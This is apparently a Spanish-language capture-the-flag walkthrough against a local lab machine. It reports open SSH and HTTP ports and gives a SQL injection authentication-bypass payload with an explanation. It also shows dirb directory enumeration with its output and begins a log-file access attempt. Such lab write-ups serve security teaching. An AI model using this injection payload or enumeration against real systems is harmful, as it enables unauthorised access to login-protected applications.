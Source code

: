 ### Resultados del escaneo
Vemos que los puertos **SSH (22)** y **HTTP (80)** están abiertos.

## Explotación Web

### Inyección SQL
Probamos inyección SQL revisando el repositorio de [SQL Injection Authentication Bypass Cheat Sheet](https://github.com/austinsonger/SQL-Injection-Authentication-Bypass-Cheat-Sheet).

En este caso usaremos:
```sql
test' or '1'='1' -- -
```

**Explicación:** Este payload construye una consulta INSEGURA donde se busca bypassear la autenticación con una consulta que siempre será verdadera, puesto que `'1'='1'` siempre será verdadera.

Esto es una inyección SQL no parametrizada, lo que significa que es efectiva cuando solo se concatena la query.

### Enumeración de directorios
A continuación usaremos `dirb` para enumerar las rutas ocultas:

```bash
dirb http://172.17.0.2/
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep  7 00:50:21 2025
URL_BASE: http://172.17.0.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                            GENERATED WORDS: 4612              

---- Scanning URL: http://172.17.0.2/ ----
                                            + http://172.17.0.2/index.php (CODE:302|SIZE:0)
+ http://172.17.0.2/logs (CODE:403|SIZE:275)
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
                                                                            
-----------------
END_TIME: Sun Sep  7 00:50:21 2025
DOWNLOADED: 4612 - FOUND: 3
```

### Acceso a logs mediante LFI
Vemos la existencia de una carpeta de `logs`, lo cual podemos evaluar si existe un archivo `logs.txt`. Sin embargo, al probar `http://172.17.0.2/logs/logs.txt` vemos que tenemos acceso restringido.
